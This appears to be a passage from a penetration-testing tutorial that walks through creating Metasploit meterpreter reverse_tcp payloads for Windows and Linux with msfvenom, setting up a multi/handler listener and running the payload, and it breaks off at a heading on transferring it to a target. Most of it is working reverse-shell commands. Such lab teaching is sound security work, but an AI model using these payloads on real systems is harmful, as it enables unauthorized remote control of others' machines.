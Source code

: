 - **Generate x64 Payload:**

    ```bash
    msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=[yourIP] LPORT=[port] -f exe > /home/kali/Desktop/Windows_Payloads/payloadx64.exe
    ```

    Verify:

    ```bash
    cd Desktop/Windows_Payloads/
    ls
    ```

- **Set up a Handler:**
    - A handler is needed to listen for and manage incoming connections from the payload on the target machine, enabling control over the compromised system:

    ```bash
    use exploit/multi/handler
    ```

- **List available output formats:**

    ```bash
    msfvenom -list formats
    ```

    - **Framework Executable Formats**: aspx, dll, elf, exe, jar, etc.
    - **Framework Transform Formats**: Allows us to output the payloads into a Python, Ruby file, etc.

#### Generating Linux Payloads

- **Navigate to the directory for Linux payloads:**

    ```bash
    cd ..
    ls
    ```

    The payloads will be stored in `/home/kali/Desktop/`.

- **Generate Payload:**

    ```bash
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[yourIP] LPORT=[port] -f elf > /Desktop/Linux_Payloads/payloadx86
    ```

    Navigate to the target directory and make the payload executable:

    ```bash
    cd Linux_Payloads/
    chmod +x payloadx86
    ./payloadx86
    ```

### Transfer Windows Payload onto Target System
